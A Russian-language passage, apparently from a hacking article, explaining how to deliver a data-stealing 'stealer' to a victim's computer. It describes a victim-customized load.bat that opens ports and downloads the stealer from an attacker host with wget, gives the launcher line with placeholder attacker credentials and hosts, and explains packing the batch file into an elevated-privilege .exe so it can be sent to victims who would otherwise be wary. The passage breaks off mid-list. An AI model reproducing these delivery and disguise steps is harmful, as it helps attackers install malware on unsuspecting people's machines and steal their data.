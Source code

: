 -   load.bat — пример кастомизированного под конкретную жертву файла
    загрузки стайлера.

-   wget.exe — собственно программа для скачки установочных файлов с
    сервера Hacker\_host1

Назначение первого файла — открытие портов для FTP и веб-клиента,
подготовка файла сценария и скачивание дистрибутива этим клиентом, а
также запуск локального установщика стайлера. Информацию для этого
пакетный файл получает из командной строки.

Единственное назначение второго файла — запуск первого файла с
заполненными по умолчанию параметрами кастомизации. Дело в том, что
запустить файл из Интернета с параметрами затруднительно, а с
использованием методов социальной инженерии — невозможно. Только для
этого и создан этот файл.

Формат этого файла следующий

Echo off start load\_distrib.bat «значение переменной Hacker\_User»
«значение переменной Hacker\_Pass» «значение переменной Hacker\_host1»
«значение переменной Hacker\_host2»

Теперь для запуска процесса инсталляции нужно, поместить оба файла в
один каталог, и запустить файл load.bat с повышенными привилегиями.
Вариант, как это сделать на практике, смотри ниже.

Подготовка файла для пересылки на компьютер жертвы
--------------------------------------------------

Подготовленные таким образом файлы устанавливают стайлер произвольной
конфигурации на компьютер жертвы. Для этого запускается файл load.bat на
компьютере жертвы из произвольного каталога, с повышенными привилегиями
выполнения. Всё бы хорошо… Только переслать файл с таким расширением на
компьютер жертвы будет проблематично, а запустить такой файл с
повышенными привилегиями, в обычных условиях пользователю будет
невозможно. Администратора такой файл насторожит, а лузеры не умеют
запускать командные файлы.

К счастью для хакеров, есть программа для конверсии командных файлов в
исполняемые файлы с расширением \*.exe. Для установки программы подаётся
команда:

choco install –y battoexeconverter

После установки запустите программу, откройте в её редакторе командный
файл, задайте опции конвертирования, конечный каталог, и бинго! Будет
создан исполняемый файл с той же функциональностью.

Перечислять опции и команды работы этого конвертера автор не будет – это
тема отдельной статьи. Отметим, что файл после конвертации сможет:

1.  Требовать запуска с повышенными привилегиями;

2.  Инкапсулировать в себя как выполняемый командный файл, так и
    дополнительные командные и исполняемые файлы, архивы, видео,
    изображения, необходимые для его работы;
